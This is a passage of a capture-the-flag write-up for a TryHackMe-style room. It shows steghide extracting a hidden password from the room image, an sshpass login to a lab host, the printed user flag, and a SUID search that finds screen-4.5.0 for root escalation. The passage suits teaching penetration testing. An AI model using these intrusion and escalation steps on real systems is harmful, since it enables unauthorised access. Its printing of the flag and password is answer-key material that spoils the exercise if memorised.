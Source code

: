 I'll be honest, I was about to stop here and searched in one of the available writeups. I found that the password is located in the picture of this room.... Seriously, who would expect that? Anyway, let's take this as a hint (it would maybe make sense to add a hint BTW).

Use steghide (with empty key) to reveal the password:

~~~
$ wget https://i.imgur.com/5iW7kC8.jpg
$ steghide info 5iW7kC8.jpg 
"5iW7kC8.jpg":
  format: jpeg
  capacity: 6.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "password.txt":
    size: 83.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
$ steghide extract -sf 5iW7kC8.jpg 
Enter passphrase: 
wrote extracted data to "password.txt".
$ cat password.txt 
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
~~~

Great, now we have a valid user and password.

~~~
$ sshpass -p "*axA&GF8dP" ssh joker@10.10.109.114
joker@ubuntu:~$ pwd
/home/joker
joker@ubuntu:~$ cat user.txt 
THM{d5781e53b130efe2f94f9b0354a5e4ea}
~~~

User flag: `THM{d5781e53b130efe2f94f9b0354a5e4ea}`

# #2 - root.txt

User has not sudo privileges, but there are interesting programs owned by root with the SUID bit set:

~~~
joker@ubuntu:~$ /bin/bash
joker@ubuntu:~$ find / -user root -perm -u=s 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/bin/fusermount
/bin/su
/bin/ping6
/bin/screen-4.5.0
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
~~~